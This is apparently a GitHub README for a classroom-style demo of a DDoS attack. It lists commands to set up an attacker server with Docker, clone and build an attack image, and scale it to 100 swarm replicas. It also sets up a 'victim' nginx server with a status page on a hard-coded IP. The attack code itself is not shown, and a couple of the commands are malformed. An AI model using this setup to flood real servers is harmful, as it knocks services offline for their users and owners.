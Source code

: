 # DDOS Docker Swarm attack

## Config attacker server
```
    ./connect-to-attacker
    sudo apt update
    sudo apt install apt-transport-https ca-certificates curl software-properties-common
    curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
    sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu bionic stable"
    sudo apt update
    sudo apt install docker-ce
```

## Run attack
```
    git clone git clone https://github.com/sjdonado/ddos-attack-docker-swarm-demo.git
    sudo docker build ddos-attack:0.1 .
    sudo docker swarm init
    sudo docker service create --name ddos_attack_service --detach=false ddos-attack:0.1
    sudo docker service scale ddos_attack_service=100
    sudo docker service logs ddos-attack:0.1
```

## Config victim nginx server
```
    ./connect-to-victim
    sudo apt-get install nginx
    sudo mv nginx/default.conf /etc/nginx/sites-enabled/default
    sudo service nginx restart
```

## Monitoring victim nginx server
Go to http://18.190.15.1/nginx_status
